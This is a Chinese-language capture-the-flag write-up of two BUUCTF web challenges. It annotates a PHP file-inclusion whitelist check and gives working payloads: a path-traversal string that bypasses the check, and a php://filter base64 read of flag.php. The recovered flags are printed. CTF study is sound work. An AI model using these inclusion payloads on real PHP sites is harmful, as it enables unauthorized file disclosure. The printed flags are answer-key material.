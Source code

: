 # 1. Buuctf web Warm UP



​	发现，除了一个笑脸什么都没有了，查看源码发现提示 `source.php`，输入后得到php代码。

```php
 <?php
    highlight_file(__FILE__);
    class emmm
    {
        public static function checkFile(&$page)
        {
            $whitelist = ["source"=>"source.php","hint"=>"hint.php"];
            if (! isset($page) || !is_string($page)) {
                echo "you can't see it";
                return false;
            }

            if (in_array($page, $whitelist)) {
                return true;
            }

            $_page = mb_substr(
                $page,
                0,
                mb_strpos($page . '?', '?')
            );
            if (in_array($_page, $whitelist)) {
                return true;
            }

            $_page = urldecode($page);
            $_page = mb_substr(
                $_page,
                0,
                mb_strpos($_page . '?', '?')
            );
            if (in_array($_page, $whitelist)) {
                return true;
            }
            echo "you can't see it";
            return false;
        }
    }

    if (! empty($_REQUEST['file'])
        && is_string($_REQUEST['file'])
        && emmm::checkFile($_REQUEST['file'])
    ) {
        include $_REQUEST['file'];
        exit;
    } else {
        echo "<br><img src=\"https://i.loli.net/2018/11/01/5bdb0d93dc794.jpg\" />";
    }  
?> 
```

​	代码分为一个emmm类，中含有checkFile函数和主运行代码，大致浏览以下代码，发现 `hint.php` 的提示，输入后得到提示： ==flag not here, and flag in ffffllllaaaagggg== 得到线索，flag可能在ffffllllaaaagggg文件中。

​	现在我们先跳过checkFile函数，直接看调用代码。

```php
if (! empty($_REQUEST['file'])		//接收一个file参数
        && is_string($_REQUEST['file'])		//file类型为字符串
        && emmm::checkFile($_REQUEST['file'])		//checkFile函数返回true
    ) {
        include $_REQUEST['file'];		//包含一个文件，文件来自 $_REQUEST['file']
        exit;
    } else {		//如果判断条件不通过，返回滑稽表情包
        echo "<br><img src=\"https://i.loli.net/2018/11/01/5bdb0d93dc794.jpg\" />";
    }
```

​	分析完调用代码，我们来看 `checkFile` 函数，如何让其返回true值。

```php
public static function checkFile(&$page)
        {
            $whitelist = ["source"=>"source.php","hint"=>"hint.php"];		//用户白名单
            if (! isset($page) || !is_string($page)) {		//如果file为空，或者file不是字符串，判断为true
                echo "you can't see it";
                return false;
            }

            if (in_array($page, $whitelist)) {		//如果file在白名单中，返回true
                return true;
            }

            $_page = mb_substr(		//substr(string,start,length) 返回字符串的一部分
                $page,
                0,
                mb_strpos($page . '?', '?')		
                //strpos(string,find,start) 查找find在string中第一次出现的位置  -start规定开始查询的位置（可选）
            );
            if (in_array($_page, $whitelist)) {
                return true;
            }

            $_page = urldecode($page);		//对url进行反编码--及将对应字符的url code翻译为字符
            $_page = mb_substr(
                $_page,
                0,
                mb_strpos($_page . '?', '?')
            );
            if (in_array($_page, $whitelist)) {
                return true;
            }
            echo "you can't see it";
            return false;
        }
    }
```

​	通过分析代码，我们尝试构造payload，多次尝试最终`http://503a8ecc-7018-4c4c-bbbc-5c804b773283.node5.buuoj.cn:81/source.php/?file=hint.php?../../../../../../../ffffllllaaaagggg` 得到flag ` ` `flag{02851256-70ea-40b6-a6f3-db1827143207}`





# 2. Buuctf web Include



​	跟据题目提示 `include` 猜测使用文件包含漏洞。

​	打开题目，映入眼帘的是 `tips` 点击，提示 `Can you find out the flag?` 

尝试php伪协议，

[php伪协议]: https://www.cnblogs.com/zzjdbk/p/13030717.html	"详细讲解php伪协议。"

直接构造payload `http://d6ae6141-3682-4ea7-aba7-324fad037e23.node5.buuoj.cn:81/?file=php://filter/read=convert.base64-encode/resource=flag.php`

得到php代码经过base64加密后的值

`PD9waHAKZWNobyAiQ2FuIHlvdSBmaW5kIG91dCB0aGUgZmxhZz8iOwovL2ZsYWd7ZmVjOGUyZWUtODhiYy00MzFlLWFmYjItNzgyMzcwM2IyNzVlfQo=` 

base64解码后得到php源码，发现flag。

```php
<?php
echo "Can you find out the flag?";
//flag{fec8e2ee-88bc-431e-afb2-7823703b275e}
```


















